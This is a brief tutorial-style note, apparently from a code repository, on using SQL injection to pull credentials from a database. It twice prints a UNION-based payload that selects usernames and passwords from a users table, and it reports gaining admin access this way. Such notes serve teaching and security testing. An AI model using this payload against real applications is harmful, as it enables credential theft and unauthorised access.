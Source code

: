 # Retireving Sensitive Data

SQL injection can be helpful in retireving some sensitive data like password. Here is simple example for the same

```sql
' union select username, password from users--
```

This will return every user and password from the table users.

end goal : Retireve username and password

payload

```sql
' union select username, password from users--
```

got the password for admin access
